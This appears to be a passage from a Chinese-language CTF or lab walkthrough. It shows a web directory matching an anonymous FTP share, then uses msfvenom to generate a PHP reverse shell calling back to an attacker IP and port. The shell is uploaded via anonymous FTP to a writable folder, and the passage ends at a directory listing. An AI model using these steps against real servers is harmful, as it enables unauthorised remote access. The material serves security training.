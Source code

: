 访问http://10.10.40.155/files/，发现列出的目录内容和ftp匿名登录服务器列出的目录内容一样。说明ftp服务器的工作目录与Web目录相同，我们可以通过ftp服务器上传Webshell，然后在该页面执行。

```
Index of /files
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[DIR]	ftp/	2020-11-12 04:53 	- 	 
[IMG]	important.jpg	2020-11-12 04:02 	246K	 
[TXT]	notice.txt	2020-11-12 04:53 	208 	 
Apache/2.4.18 (Ubuntu) Server at 10.10.40.155 Port 80
```

[MSFVenom Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)

利用msfvenom生成一个PHP Webshell。

```
┌──(root㉿kali)-[~/Downloads]
└─# msfvenom -p php/reverse_php LHOST=10.18.72.222 LPORT=4433 -f raw > phpreverseshell.php        
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 2983 bytes
```

将生成的phpreverseshell.php通过ftp上传到Web服务器的ftp目录，并执行。

```
┌──(root㉿kali)-[~/Downloads]
└─# ftp 10.10.40.155  
Connected to 10.10.40.155.
220 (vsFTPd 3.0.3)
Name (10.10.40.155:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> lpwd
Local directory: /root/Downloads
ftp> put phpreverseshell.php
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||42331|)
553 Could not create file.
ftp> ls
229 Entering Extended Passive Mode (|||17270|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> pwd
Remote directory: /ftp
ftp> put phpreverseshell.php
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||9167|)
150 Ok to send data.
100% |****************************************************************************************************************|  2983        8.94 MiB/s    00:00 ETA
226 Transfer complete.
2983 bytes sent in 00:00 (5.57 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||8300|)
150 Here comes the directory listing.
```